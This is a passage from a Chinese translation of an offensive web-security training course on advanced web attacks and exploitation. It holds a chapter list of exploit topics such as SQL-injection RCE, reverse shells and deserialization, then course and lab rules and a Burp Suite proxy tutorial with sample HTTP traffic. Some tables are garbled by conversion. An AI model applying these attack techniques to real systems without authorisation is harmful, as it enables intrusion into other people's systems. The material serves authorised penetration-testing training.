# 高级 Web 攻击与利用实战


### 4 ATutor LMS 类型混淆漏洞

- 4.1 概述
- 4.2 入门
- 4.3 PHP 松散与严格比较
- 4.4 PHP 字符串转数字
- 4.4.1 练习
- 漏洞发现
- 4.5 攻击松散比较
- 4.6.1 魔法哈希
- 4.6.2 ATutor 与魔法邮箱地址
- 4.6.3 练习
- 4.6.4 进阶
- 4.7 总结

### 5 ManageEngine Applications Manager `AMUserResourcesSynclet` SQL 注入 RCE

- 5.1 概述
- 5.2 入门
- 5.3 漏洞发现
  - 5.3.1 Servlet 映射
  - 5.3.2 源码恢复
  - 5.3.3 源码分析
  - 5.3.4 开启数据库日志
  - 5.3.5 触发漏洞
  - 5.3.6 练习
- 5.4 绕过字符限制
  - 5.4.1 使用 `CHR` 和字符串拼接
  - 5.4.2 它在词法上是合理的
- 5.5 盲注
  - 5.5.1 练习
- 5.6 访问文件系统
  - 5.6.1 练习
  - 5.6.2 通过 `Copy To` 获取反弹 Shell
  - 5.6.3 练习
  - 5.6.4 进阶挑战
- 5.7 `PostgreSQL` 扩展
  - 5.7.1 编译环境
  - 5.7.2 测试扩展
  - 5.7.3 从远程位置加载扩展
  - 5.7.4 练习
- 5.8 UDF 反弹 Shell
  - 5.8.1 练习
- 5.9 更多 Shell
  - 5.9.1 `PostgreSQL` 大对象
  - 5.9.2 大对象反弹 Shell
  - 5.9.3 练习
  - 5.9.4 进阶挑战
- 5.10 总结

## 6 Bassmaster `NodeJS` 任意 `JavaScript` 注入漏洞


- 6.1 概述
- 6.2 入门
- 6.3 Bassmaster 插件
- 6.4 漏洞发现
- 6.5 触发漏洞
- 6.6 获取反弹 Shell
  - 6.6.1 练习
  - 6.6.2 进阶挑战
- 6.7 总结

## 7 `DotNetNuke` Cookie 反序列化 RCE

- 7.1 概述
- 7.2 入门
- 7.3 简介
- 7.4 序列化基础
  - 7.4.1 `XmlSerializer` 的局限性
  - 7.4.2 `XmlSerializer` 示例
  - 7.4.3 练习
  - 7.4.4 扩展 `XmlSerializer` 示例
  - 7.4.5 练习
  - 7.4.6 观察你的类型
  - 7.4.7 练习
- 7.5 `DotNetNuke` 漏洞分析
  - 7.5.1 漏洞概述
  - 7.5.2 调试 `DotNetNuke`
  - 7.5.3 练习
  - 7.5.4 我们是如何变成这样的
- 7.6 载荷选项
  - 7.6.1 `FileSystemUtilsPull` 方法
  - 7.6.2 `ObjectDataProvider` 类
  - 7.6.3 `ObjectDataProvider` 实例使用
  - 7.6.4 练习
  - 7.6.5 `ObjectDataProvider` 的序列化
  - 7.6.6 进入龙穴 (`ExpandedWrapper` 类)


# 7.6.7 练习

# 7.7 整合所有

## 7.7.1 练习

# 7.8 yoserial.net

## 7.8.1 Net 进阶挑战

## 7.8.2 Java 进阶挑战

# 7.9 总结

# 引言

现代 Web 应用程序的攻击面在过去十年中无疑不断扩大。随着边界设备安全性的提高以及针对这些设备的攻击减少，Web 应用程序配合社交工程学可能成为最有效的突破途径。

为了给用户提供日益丰富的体验，导致了各种技术和开发框架的诞生，这些框架往往层层堆叠的。尽管这些设计实现了其功能目标，但也为 Web 应用程序引入了导致漏洞的复杂性。

在课程中，我们将关注多个类漏洞链的利用，从而实现对底层系统的控制。在开发利用程序的过程中，我们还将深入分析目标 Web 应用程序的方法和技术。

# 关于 AWARE 课程

本课程旨在开发或扩展你在 Web 渗透测试和漏洞研究方面的利用技能。这不是一门入门课程——预计你熟悉基础 Web 技术和脚本语言。我们将深入理解并编写多种语言，包括但不限于 `JavaScript`、`PHP`、`Java` 和 `C#`。

`AWARE` 课程由多个部分组成。以下是你现在可以访问的内容概述：

- `AWAE` 课程材料
- 内部 `VPN` 实验网络访问权限
- 学生论坛凭据
- 实时支持

**`AWAE` 课程材料**：由 `PDF` 格式的实验指南和配套的课程视频组成。实验视频和指南视频中涵盖的信息是重叠的，这允许你以快速高效的方式观看视频中的演示内容，然后参考实验指南在稍后填补空白。

在某些模式下，实验指南的深度会比视频更深，但视频也能比文本更好地传达某些信息，因此注意这两者至关重要。实验指南在每个章节末尾还包含练习题，并为想要超越课程要求以最大化利用课程价值的学生提供了“额外挑战（extra miles）”。

**内部 `VPN` 网络访问权限**：你的欢迎包已在课程开始日期通过电子邮件发送给你，其中应包含你的 `VPN` 凭据和相应的 `VPN` 连接包。两者结合使用，将使你能够连接并访问内部 `VPN` 实验网络，你将在那里花费大量时间。实验时间从你的课程开始开始，并以连续访问的形式存在。没有正当理由，实验时间无法暂停。

你随时可以使用个性化购买链接（你应该已通过电子邮件收到）购买实验扩展时长。如果在你的访问仍然有效时购买了实验扩展，额外时间将加到你现有的访问中，你可以继续使用相同的 `VPN` 连接包。如果在现有实验访问结束后购买了实验扩展，你将在处理后的一小时内收到一个新的 `VPN` 连接包。

**`Offensive Security` 论坛**：学生论坛仅供 `Offensive Security` 的学生访问。你的论坛凭据也是欢迎包的一部分；请检查电子邮件以确保你已拥有这些凭据。论坛访问是永久的，不会在你的实验时间结束时过期。

通过论坛，你可以自由地与同学交流、提问、分享有趣的资源并提供提示和建议，只要没有出现剧透内容（因为这可能会破坏他人的整体课程体验）。在使用论坛时请务必小心，否则你发布的内容可能会被审核。

> `https://forums.offensive.com/`

实时支持：支持允许你与我们的学生管理员直接沟通，他们是 `Offensive Security` 员工的成员。管理员主要协助解决技术问题；然而，他们也可以解答你对课程材料或相应课程练习的任何疑问。此外，如果你确实在某个练习上陷入了僵局，且你已经尽了最大努力，他们偶尔也可以为你提供一两个提示。请注意，他们提供的信息将取决于你提供的详细程度。关于你已经尝试过的内容和结果，提供的细节越详细越好。

参加过我们入门 `PWK` 课程的学生会发现这门课程有显著不同。`AWAE` 实验的多样性较低，并且包含了课程重点关注的几个测试场景。此外，每位 `AWAE` 学生都将获得一组托管这些场景的虚拟机，以便对课程材料进行实验。在极少数情况下，解释是刻意保持模糊的，以挑战你并确保你理解了模块背后的概念。

你如何接触 `AWAE` 课程取决于你自己。由于每个学生的独特性，对我们来说告诉你应该如何学习它是不切实际的，但如果你没有偏好的学习风格，我们建议你：

1. 阅读作为欢迎包一部分发送给你的邮件
2. 开始每个模块时，先阅读实验指南中的章节并做到总体熟悉
3. 一旦读完章节，继续观看该模块的配套视频
4. 理解被要求做什么，并尝试在实验中重现练习
5. 执行“额外挑战（`Extra Mile`）”练习。这些在实验中没有涵盖，由你独立完成
6. 在你偏好的文档环境中记录你的发现

你可以选择从课程视频开始，然后在实验指南中回顾该模块的信息，或者反之亦然。在学习课程材料时，你可能需要多次观看或重读模块才能完全理解所教内容。记住，这是一场马拉松，而不是冲刺，所以请花上你需要的所有时间。

> `https://support.offensive-security.com/`

在大多数模块的末尾，会有课程练习供你完成。我们建议你在移动下一个模块之前完全完成它们。这些练习将测试你对材料的理解，以确保你已准备好前进。

注意，实验指南和视频中的 `IP` 地址和保留的代码片段与你的环境不匹配。我们强烈建议你从头创建所有示例场景，而不是从实验指南或视频中复制代码。在所有模块中，我们都会挑战你以不同的方式思考并应对所提出的挑战。

课程的重点是 `Web` 应用安全研究，以便你能够为广泛部署的应用和技术中的漏洞创建利用程序（`exploits`）。最终，每位安全专业人员都会开发自己的方法论，通常基于特定的技术优势。本课程建议的方法论仅供参考。我们鼓励你在学习课程的过程中开发自己进行 `Web` 应用安全测试的方法论。

## 0.3 获取支持

`AWAE` 是一门自学的在线课程。它允许你按照自己的速度进行，在你可能薄弱的领域进行额外研究，并从课程中获得最多。

在联系支持之前，我们希望你已经查看了材料，并针对自己的薄弱环节进行了深入研究。以下 `FAQ` 页面可能会回答你的问题：

- `https://support.offensive-security.com/`
- `https://www.offensive-security.com/faq/`

如果你无法获得所需的帮助，可以通过实时支持或发送电子邮件到 `help@security.com` 联系我们的管理员。

最后，如果你想与其他同学交流想法，两个资源包括学生论坛和我们的 `IRC` 频道²。请注意，不容忍要求不愿意提供帮助的学生。`IRC` 上的一些人也是学生，因此他们可能没有你寻找的准确答案。

> ² `https://www.offensive-security.com/irc-guide/`

本文档包含课程练习，应仅在 `Offensive Security` 安全实验中尝试。请注意，实验指南中描述的大多数攻击如果在未获得明确许可的机器上尝试将是非法的。由于实验环境与互联网隔绝，在实验室内部执行攻击是安全的。`Offensive Security` 对隔离实验室之外的操作不承担任何责任。

### 0.5.1 通用信息

如上述所示，注意指南（以及视频）中显示的 `IP` 地址并不反映 `Offensive Security` 实验中的 `IP` 地址。不要尝试复制实验中的示例；你需要将示例调整到你的特定配置。

你可以在 `VPN` 通道内的学生控制面板找到分配给你的实验机器 `IP` 地址

### 0.5.2 实验限制

内部 `VPN` 实验网络严格执行以下限制。如果你违反了下任何限制，`Offensive Security` 保留禁用你访问的权利。

1. 不要对网络进行 `ARP` 欺骗或任何类型的中毒或中间人攻击
2. 不要故意干扰正在实验的其他同学。这包括但不限于：
    - 关闭机器
    - 将用户踢出机器
    - 阻止特定的 `IP` 或范围
    - 黑入其他同学的实验客户端或 `Kali` 机器

### 0.5.3 预警与实验行为

内部 `VPN` 实验网络是一个敌意环境，不应在你用于连接实验的 `Kali Linux` 虚拟机上存储敏感信息。你可以通过在不使用时停止服务并确保你的 `Kali Linux` 系统更改了默认密码来保护自己。

# 高级 Web 攻击与利用

## 0.5.4 控制面板

登录内部 `VPN` 网络后，你就可以访问你的 `AWAE` 控制面板。`AWAE` 控制面板允许你在实验机器无响应时进行回滚（`revert`）等。访问该面板的 `URL` 已通过你欢迎包中的邮件发送给你。如果你在第一次访问时遇到 `SSL` 证书警告，可以接受它，因为它使用的是自签名证书。

每位学生每 24 小时提供 8 次回滚机会，使其可以将特定的实验机器恢复到原始状态。该计数器会在每天 `GMT +0 00:00` 重置。如果你需要额外的回滚次数，可以通过电子邮件（`help@offensive-security.com`）或在线支持平台⁴ 联系学生管理员重置你的回滚计数器。

实验机器回滚之间的最小时间为 5 分钟。

## 0.6 备份

人分为两类：那些定期备份文档的人，以及那些后悔自己没做备份的人。备份通常被视为一种保险——你永远不知道什么时候会需要它。作为一般原则，我们建议你定期备份文档，这是一项良好的习惯。请将备份保存在安全的地方，因为出于明显的原因，你绝对不想让它们出现在公共 `git` 仓库或云端！

文档不应是你唯一备份的内容。确保你备份了 `Kali` 虚拟机上的重要文件，在需要时拍摄适当的快照等等。

> ⁴ `https://support.offensive-security.com/`

# 工具与方法论

处理 `Web` 应用时使用的安全工具和方法论可能随研究人员而异。尽管如此，无论使用什么工具，攻击 `Web` 应用时都应该遵循一些通用原则。在本模块中，我们将介绍一些更常用的工具及其使用方法，这将为我们课程的剩余部分提供足够的工具支持。

在开始之前，重要的一点是，类似于针对 `Windows` 或 `Linux` 二进制文件的方法，`Web` 应用的漏洞研究可以从白盒²或黑盒视角进行。在白盒场景下，研究人员要么拥有原始源代码的访问权限，要么至少能够将其恢复到接近原始的状态。当这两种情况都不可能时，研究人员需要采用黑盒方法，即关于目标应用程序的信息极少。在这种情况下，为了发现漏洞，研究人员需要通过检查精心构造的输入产生的输出和效果来观察应用程序的行为。

可以说，在测试白盒方法时，`Web` 应用程序比传统的编译应用程序是一个更容易的目标。这背后的原因是，大多数情况下，`Web` 应用程序是用解释型语言编写的，不需要逆向工程。此外，正如我们在课程中将看到的，使用 `Java`、`.NET` 或类似的字节码语言编写的 `Web` 应用源代码也可以在专用工具的帮助下轻松恢复到接近原始的状态。

值得注意的是，恢复和读取现代 `Web` 应用源代码的能力并不会降低所需研究的复杂性。然而，一旦应用程序源代码被恢复，研究人员就可以检查应用程序的内部结构并对代码流进行彻底分析。为了对选定的测试用例进行深度漏洞分析，我们将在整个课程大部分时间使用这种方法。

对常见陷阱的接触和完全理解，结合链攻击方法，将为我们提供良好的知识基础，适用于各种场景。

## 1.1 Web 流量检查

处理未知 `Web` 应用时的首要步骤之一始终应该是流量检查。虽然 `Web` 应用可以在浏览器界面内向终端用户呈现许多元素，但在这些元素达到最终呈现状态之前，大多数应用程序在客户端和服务器之间在构建过程中会产生大量请求。换句话说，浏览器向网页的简单请求（如 `www.example.com`）只是开始。

### 1.1.1 Burp Proxy

`Burp Suite` 可以通过应用程序菜单启动。启动 `Burp Suite` 后，我们将看到一个弹出通知，显示尚未在 `Java` 版本上进行过测试。然而，由于 `Kali` 团队对随附的 `Java` 版本进行了测试，我们可以安全地忽略此警告。

我们看到的下一个窗口提供了启动新项目或恢复之前保存的项目的机会。使用项目文件是一个功能，但在课程中不需要。因此，我们将选择临时项目并继续。

在代理完全启动之前的最后一个提示提供了加载自定义配置或接受默认的选项。每个研究人员都有偏好的工作流和设置，`Burp Suite` 允许我们自定义并优化该工作流。现在我们将使用 `Burp` 默认配置。

一旦 `Suite` 启动，我们可以通过检查 `Alerts` 标签页来验证代理服务正在运行，那里将显示类似下面的消息：

最后一步是设置代理以浏览网页。在 `Firefox` 中，这通过导航到 `about:preferences#advanced`，点击“网络”，然后点击“设置”来实现。

在这里我们需要选择手动选项并使用代理的 `IP` 地址和监听端口。由于代理和浏览器位于同一台主机上，我们将使用回环接口。但请记住，如果你在使用代理拦截来自多台机器的流量，应对此设置使用正确的 `IP` 地址。我们还希望勾选为所有协议使用代理服务器选项，以确保我们在请求目标应用程序时能够拦截每个请求。

如果我们已经设置了代理，我们将对其进行简要测试。在这种情况下，我们将导航到实验环境中托管有漏洞版本的 `Atmail`¹ `Web` 应用程序的虚拟机。请注意，针对此情况，我们在 `Kali Linux` 攻击机中设置了 `hosts` 条目，使我们能够通过名称引用实验环境。

```bash
kali@kali:-$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 kali

# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-loopback
ff02:: ip6-allnodes
ff02:: ip6-allrouters
192.168.1.180 managegeengine
192.168.1.178 atmail
192.168.1.187 atutor
192.168.1.185 bassmaster
192.168.1.165 dnn
kali@kali:-$
```

列表 1 - `Kali` `hosts` 文件

请确保你编辑 `Kali Linux` 上的 `/etc/hosts` 文件，以反映在学生控制面板中找到找到漏洞目标 `IP` 地址。

如果我们现在尝试访问 `http://atmail/URL`，我们会注意到浏览器没有完成请求。其原因在于 `BurpSuite` 默认开启了拦截（`Intercept`）功能。



图 6：`Firefox` 连接中

如名所示，此功能会拦截发送到代理的请求。它随后允许我们检查并向目标重发请求，或者将其丢弃。可以使用图 7 所示的相应按钮完成操作。

> ¹ `https://www.atmail.com/`

# 高级 Web 攻击与利用


`Burp Suite` 社区版 `v1.7`。

| `Burp` | `Intruder` | `Proxy` | `Spider` | `Scanner` | `Intruder` | `Repeater` | `Sequencer` | `Decoder` | `Comparer` | `Extender` |
|---|---|---|---|---|---|---|---|---|---|---|
| `Intercept` | `HTTP history` | `WebSockets history` | `Options` | | | | | | | | |

> > 请求至 `http://at:80 [192.168.121.106]`

| `Forward` | `Drop` | `Intercept is on` | `Action` |
|---|---|---|---|
| `Raw` | `Headers` | `Hey` | |

```http
GET /http/1.1
Host: atmail
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xml+,application/xml;q=0.9,*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
DONT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


为了本方法的目的，我们可以关闭此功能。

`HTTP history` 标签页非常自显易懂——在这里我们可以看到整个会话历史，包括由代理捕获的所有请求和响应。

`Burp Suite` 社区版

| `Burp` | `Intruder` | `Proxy` | `Spider` | `Scanner` | `Intruder` | `Repeater` | `Sequencer` | `Decoder` | `Comparer` |
|---|---|---|---|---|---|---|---|---|---|
| `Intercept` | `HTTP history` | `WebSockets history` | `Options` | | | | | | |
| `#` | `Host` | `Method` | `URL` |
|---|---|---|---|
| 14 | `atmail` | `GET` | `/images/favicon.ico` |
| 12 | `atmail` | `GET` | `/js/rememberme.js` |


| 11 | atmail | GET | `/js` |
| 10 | atmail | GET | `/browsersearch.js` |
| 9 | atmail | GET | `/js/Query-1.7.2.custom.m...` |
| 8 | atmail | GET | `/js/Query-1.3.2.js` |
| 7 | atmail | GET | `success.txt` |
| 6 | detectportal.com | GET | `/` |
| 5 | detectportal.com | GET | `success.txt` |
| 4 | detectportal.com | GET | `success.txt` |

图 8：Burp history 标签页

# Scope（范围）

浏览现代 Web 应用意味着我们的代理历史将包含许多我们不感兴趣的网站请求，例如第三方统计、广告网络等。为了简化我们感兴趣的请求的收集，BurpSuite 允许我们设置范围。此功能使得遍历收集请求变得更容易。在示例中，我们可以右键点击任何以斜杠结尾的请求并选择 `Add to scope`。注意，这将整个域名添加到范围。或者，在 Web 应用更特定的页面上执行此操作将仅将该页面添加到范围。



| # | Target | Method | URL | Edited |
|---|---|---|---|---|
| 24 | detectportal.com | GET | `success.txt` | |
| 23 | detectportal.com | GET | `success.txt` | |
| 22 | detectportal.com | GET | `success.txt` | |
| 21 | detectportal.com | GET | `/url/atmail/` | |
| 20 | detectportal.com | GET | `/scope/ Add to scope` | |
| 15 | atmail | GET | `/scope/ from here` | |
| 14 | atmail | GET | `/url/ Do not scan` | |
| 12 | atmail | GET | `/url/ Disable scan` | |
| 11 | atmail | GET | `/scope/ Send to intruder` | Ctrl+1 |
| 10 | atmail | GET | `/scope/ Send to Repeater` | Ctrl+R |
| 9 | atmail | GET | `/scope/ Send to Sequencer` | Ctrl+R |
| 8 | atmail | GET | | |

图 9：BurpSuite "Add to scope" 功能

一旦设置了范围，图 10 显示的提示告诉我们是否要停止捕不在范围的项目。我们选择 Yes。



图 10：BurpSuite 范围警告

# 高级 Web 攻击与利用

现在我们已经将 atmail 添加到范围，可以更改 HTTP history 过滤器设置为仅显示范围内的项目。通过点击过滤器框、选择 `Show only in-scope items` 并点击过滤器框以外来实现。



图 11：BurpSuite 显示范围内的项目

# Burp Suite 社区版 v1.7.33 - Temporary 项目

| # | Host | Method | URL | Params | Edited | Status | Length | MIME type |
|---|---|---|---|---|---|---|---|
| 14 | http:// | GET | `/images/favicon.ico` | | | 200 | 1415 | text |
| 12 | http:// | GET | `/js/rememberme.js` | | | 200 | 4451 | script |
| 11 | http:// | GET | `/wp-admin/` | | | 200 | 7548 | |
| 10 | http:// | GET | `/js/browsercheck.js` | | | 200 | 9508 | script |
| 9 | http:// | GET | `/js/query/query-ui-1.7.2.custom.m...` | | | 200 | 193036 | script |
| 8 | http:// | GET | `/js/query/query-1.2.min.js` | | | 200 | 57613 | script |
| 3 | http:// | GET | `/index.html` | | | 200 | 7883 | HTML |

图 12：Burpsuite history 仅显示范围内的项目

通过切换到 Target 选项卡并选择 Scope 子标签页来验证我们的范围已正确设置。

# OFFENSIVE SECURITY（攻击性安全）

Advanced Web Attacks and Exploitation



Burp Intruder Repeater Window Help

Target Proxy Scanner Intruder Repeater Sequencer Decoder Comparer Extender

Site map Scope

Target Scope

定义当前工作的范围目标。此配置影响站点工具包含或排除 URL 路径的行为。

使用高级范围控制

Add Enabled Prefix

Edit http://atmail

Remove

Paste URL

Load ...

图 13：BurpSuite 范围列表

# 高级 Web 攻击与利用


```
Request / HTTP/1.1
Host: example.com
Accept: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept-Language: en-US,en;q=0.5
Upgrade-Insecure-Requests: 0
```

```
Response HTTP/1.1 200 OK
Date: Mon, 01 Oct 2018 21:59:44 GMT
Server: Apache/2.4.2 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: sessionid=65c4a7b8; path=/
Cache-Control: no-store, no-cache, must-revalidate, post-check, pre-check=0
```

Content-Length: 7450

```
<!DOCTYPE html PUBLIC "//W3C//HTML 4.01//EN"
 "http://www.w3.org/TR/html41/strict.dtd">
<html lang="en">
<meta http-equiv="Content-Type" content="UTF-8">
<title>Amail 6.6 Page Login</title>
<link rel="stylesheet" href="css/original.css" type="text/css">
<link rel="stylesheet" href="css/lang-en.lang-3.6.9224.css" type="text/css">
<<body>
<p>Page is in translations</p>
<form action="login/index" method="POST">
<input type="text" name="username" />
<input type="password" name="password" />
<input type="submit" value="Login" />
</form>
</body>
</html>
```


7859 bytes | 87 millis

现在我们有了一个基响应，我们将对原始请求进行更改。具体来说，我们将 `Accept-Language` 请求头从 "en-US,q=0.5" 改为 "de"。换句话说，我们将尝试查看当我们指示 Amail 使用德语时，它是如何响应的。

```
Request / HTTP/1.1
Host: example.com
Accept: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept-Language: de
```

```
Response HTTP/1.1 200 OK
Date: Mon, 01 Oct 2018 21:59:44 GMT
Server: Apache/2.4.2 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: sessionid=65c4a7b8; path=/
Cache-Control: no-store, no-cache, must-revalidate, post-check, pre-check=0
```

Content-Length: 7418

```
<!DOCTYPE html PUBLIC "//W3C//HTML 4.01//EN"
 "http://www.w3.org/TR/html41/strict.dtd">
<html lang="en">
<meta http-equiv="Content-Type" content="UTF-8">
<title>Amail 6.6 Page Login</title>
<link rel="stylesheet" href="css/original.css" type="text/css">
<link rel="stylesheet" href="css/lang-en.lang-3.6.9224.css" type="text/css">
<body><body>
<p>Page is in translations</p>
<form action="login/index" method="POST">
<input type="text" name="username" />
<input type="password" name="password" />
<input type="submit" value="Login" />
</form>
</body>
</html>
```


7827 bytes | 91 millis

在第 16 页，我们已经可以看到响应头大小和内容长度的差异。为了更好地比较响应，我们可以使用 `Compare`（比较）功能。可以通过点击响应并选择 `Select to Compare`（选择比较）来激活此功能。

21

高级 Web 攻击与利用



在切换到 `Comparator`（比较器）标签之前，我们将返回原始请求并重复相同的比较步骤，以看到我们有可以比较的不同响应（图 18, 19）。



图 18：Burp Repeater 重复请求和响应



图 19：Burp Repeater 发送第二个响应

当我们切换到 `Comparator` 标签时，我们将看到 Burp 在各自的窗口中自动高亮了不同的响应。此时，我们有比较响应的单词或字节差异的选项。我们将选择 `Words`（图 20），因为在此实例中我们处理的是二进制响应。



图 20：BurpSuite Comparator 标签

比较结果显示在专用窗口中（图 21），Burp 允许我们使用颜色编码轻松识别 `Modified`、`Deleted` 和 `Added` 的差异。在本例中，我们处理的是修改差异，如图 21 所示。



图 21：BurpSuite Comparator 标签 - Words。这是一个非常简单的例子，它展示了在测试 Web 应用时，Repeater 和 Comparator 是非常有用的工具。

## 1.4 BurpDecoder

在检查现代 Web 应用时，我们经常遇到 HTTP 请求和响应中的编码数据。坦率地说，Burp 有一个在工作流中非常易用的通用解码工具。例如，我们切换到浏览器并对 atmail/php 执行 HTTP 请求。如果我们切换回 Burp 解码响应，就可以找到它。



| Host | Method | URL | Params | Status | Extension | Title |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| --- | --- | --- | --- | --- | --- | --- |
| 34 | atmail | `/` | | 404 | text | html (Not Found) |
| 34 | atmail | `/favicon.ico` | | 404 | image | ico (Not Found) |
